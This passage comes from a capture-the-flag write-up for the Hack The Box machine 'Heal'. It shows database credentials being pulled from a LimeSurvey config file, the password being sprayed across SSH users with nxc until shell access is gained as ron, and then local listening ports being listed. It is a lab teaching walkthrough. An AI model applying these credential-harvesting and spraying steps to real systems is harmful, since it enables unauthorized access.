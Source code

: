 Now let’s check the configuration file:

```bash
/var/www/html/limesurvey/application/config/config.php

result:
'components' => array(                                                                                                                            
                'db' => array(                                                                                                                            
                        'connectionString' => 'pgsql:host=localhost;port=5432;user=db_user;password=AdmiDi0_pA$$w0rd;dbname=survey;',                     
                        'emulatePrepare' => true,                                                                                                         
                        'username' => 'db_user',                                                                                                          
                        'password' => 'AdmiDi0_pA$$w0rd',                                                                                                 
                        'charset' => 'utf8',                                                                                                              
                        'tablePrefix' => 'lime_',
```

We find a postgresql database. Let’s connect to it

```bash
PGPASSWORD='AdmiDi0_pA$$w0rd' psql -h localhost -p 5432 -U db_user -d survey
```

Nothing of interest is on there except for lime_users which shows the hash password of ralph, which we already cracked. Let’s try password spraying the new password with nxc:

```bash
nxc ssh heal.htb -u users.txt -p 'AdmiDi0_pA$$w0rd'

result:
SSH         10.10.11.46     22     heal.htb         [+] ron:AdmiDi0_pA$$w0rd  Linux - Shell access!

```

Now let’s log on.

```bash
ssh ron@heal.htb

```

Seeing what ports are listening on the machine:

```bash
ss -lntp

result:
State             Recv-Q            Send-Q                       Local Address:Port                       Peer Address:Port            Process            
LISTEN            0                 4096                             127.0.0.1:8500                            0.0.0.0:*                                  
LISTEN            0                 4096                             127.0.0.1:8503                            0.0.0.0:*                                  
LISTEN            0                 4096                             127.0.0.1:8600                            0.0.0.0:*                                  
LISTEN            0                 4096                             127.0.0.1:8300                            0.0.0.0:*                                  
LISTEN            0                 4096                             127.0.0.1:8301                            0.0.0.0:*                                  
LISTEN            0                 4096                             127.0.0.1:8302                            0.0.0.0:*                                  
LISTEN            0                 4096                         127.0.0.53%lo:53                              0.0.0.0:*                                  
```